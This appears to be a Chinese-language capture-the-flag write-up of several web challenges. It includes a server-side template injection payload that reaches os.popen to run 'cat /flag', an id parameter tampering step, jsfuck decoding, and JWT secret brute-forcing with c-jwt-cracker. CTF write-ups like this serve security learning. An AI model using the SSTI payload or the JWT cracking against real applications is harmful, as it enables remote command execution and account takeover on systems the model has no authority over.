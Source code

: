 

## babypy

ssti模版注入
调的是`os._wrap_close`

```
{{''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['popen']('cat /flag').read()}}
```

![](https://i.loli.net/2021/10/27/ovTj1WBY29bxKfJ.png)

## 蜜雪冰城甜蜜蜜

> 听说点出绝绝子的第九号饮料就可以获得flag捏

随便点击一下，会提示点的是几号饮品

![](https://i.loli.net/2021/10/27/tsrWD3gPy5EwpGH.png)

把id改成9再点就出了

![](https://i.loli.net/2021/10/27/xyMHnuDG1tpqK6z.png)



## 雷克雅未克

![](https://s2.loli.net/2022/03/09/hIjEvSp386sx924.png)

![](https://i.loli.net/2021/10/27/JzmuQT2ofP1LO5I.png)

jsfuck，丢控制台：
![](https://i.loli.net/2021/10/27/vps5PVqycTJ37uL.png)







## 人民艺术家

随便输入登录一下，会给出账号密码

![](https://i.loli.net/2021/11/08/i8l2bkjH5am1f7r.png)

登录抓包

![](https://i.loli.net/2021/11/08/dQPcnDl1XUNFhkE.png)



c-jwt-cracker爆破下key：`1234`

![](https://i.loli.net/2021/11/08/Pzwc1TVyxsZXFfJ.png)
